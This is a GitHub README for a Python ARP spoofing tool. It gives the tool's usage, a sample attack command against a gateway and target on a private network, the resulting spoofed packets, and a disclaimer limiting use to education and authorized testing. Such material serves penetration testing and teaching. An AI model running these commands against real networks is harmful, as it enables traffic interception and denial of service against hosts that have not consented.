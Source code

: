 # Python 3 ARP Spoofing Tool

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages a low-level 
assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.
```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] (--attackermac MAC | --disassociate) --gatemac MAC --targetmac MAC 
            --gateip IP --targetip IP interface

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  interface          Interface on the attacker machine to send packets from.

optional arguments:
  -h, --help         show this help message and exit
  --attackermac MAC  MAC address of the Network Interface Controller (NIC) used by 
                     the attacker.
  --disassociate     Execute a disassociation attack in which a randomized MAC 
                     address is set for the attacker machine, effectively making 
                     the target host send packets to a non-existent gateway.
  --gatemac MAC      MAC address of the NIC associated to the gateway.
  --targetmac MAC    MAC address of the NIC associated to the target.
  --gateip IP        IP address currently assigned to the gateway.
  --targetip IP      IP address currently assigned to the target.
  --interval TIME    Time in between each transmission of spoofed ARP packets 
                     (defaults to 0.5 seconds).
```


## Sample Output

- Example command to initiate an attack against a given target machine and gateway:
```
user@host:~$ sudo python3 arpspoof.py eth0 --attackermac 08:00:27:1f:6a:67 \
--gatemac 52:54:00:45:6a:69 --targetmac 08:00:27:83:dc:02 \
--gateip 10.0.1.1 --targetip 10.0.1.6

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```
- Example traffic displayed by [Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack takes place:
```
[>] Packet #1 at 15:15:03:
    [+] MAC ......08:00:27:1f:6a:67 -> 52:54:00:45:6a:69
    [+] ARP ...............10.0.1.6 -> Is at 08:00:27:1f:6a:67
[>] Packet #2 at 15:15:03:
    [+] MAC ......08:00:27:1f:6a:67 -> 08:00:27:83:dc:02
    [+] ARP ...............10.0.1.1 -> Is at 08:00:27:1f:6a:67
```

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality, 
for engaging targets without prior mutual consent is illegal. **It is 
the end-user's responsibility to obey all applicable local, state 
and federal laws.**

Developers assume **no liability** and are not 
responsible for misuses or damages caused by any code contained 
in this repository in any event that, accidentally or otherwise, it comes to 
be utilized by a threat agent or unauthorized entity as a means to compromise the security, privacy, 
confidentiality, integrity and/or availability of systems and their associated 
 resources by leveraging the exploitation of known or unknown vulnerabilities present 
in said systems, including, but not limited to, the implementation of security controls, 
human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those circumstances 
directly related to **educational environments** or **authorized penetration testing 
engagements** whose declared purpose is that of finding and mitigating vulnerabilities 
in systems, limiting their exposure to compromises and exploits employed by malicious 
agents as defined in their respective threat models.
